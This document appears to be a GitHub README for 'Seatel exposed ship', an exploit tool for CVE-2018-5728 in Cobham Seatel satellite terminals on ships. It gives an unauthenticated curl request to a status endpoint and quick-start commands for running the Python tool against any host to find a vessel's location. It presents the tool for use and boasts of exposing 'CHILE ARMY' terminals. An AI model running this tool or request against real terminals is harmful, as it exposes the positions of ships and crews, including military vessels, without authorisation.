



# Terminales Seatel 
Las embarcaciones que ocupan la plataforma satelital Seatel (de la firma Cobham), cuenta con una serie de vulnerabilidades sobre los servicios de la misma terminal, que podría permitir fácilmente a terceros no autorizados entre otras cosas conocer su geolocalización.

 


#  [Exploit] show DVR Credentiales

	[*] Exploit Title:      "Sensitive exposure from Seatel satellite terminal" 
	[*] CVE:                 CVE-2018-5728
	[*] CVSS Base Score v3:  7.1 / 10
	[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N/E:F/RL:W/RC:C
	[*] Exploit Author:      Fernandez Ezequiel ( twitter:@capitan_alfa )

	

### Simple PoC:

```
	$> curl "http://<dvr_host>:<port>/cgi-bin/getSysStatus"

```
## In the Wild:
 


# TOOL: "Seatel exposed ship"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/seatel_terminals.git
	usr@pwn:~$ cd seatel_terminals
	Usr@pwn:~$ python seaTel.py --host <host>

## help

	usage: seaTel.py [-h] [-v] --host HOST [--port PORT]

	[+] Where are you ship ?

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port (default 80)

	usr@pwn:~$ python seaTel.py --host <host>


## Pocs (Output) :



### Extra: CHILE ARMY !!!




### Blog:
https://misteralfa-hack.blogspot.com/2019/08/cobham-terminales-satelitales-seatel.html


I see you... ! xd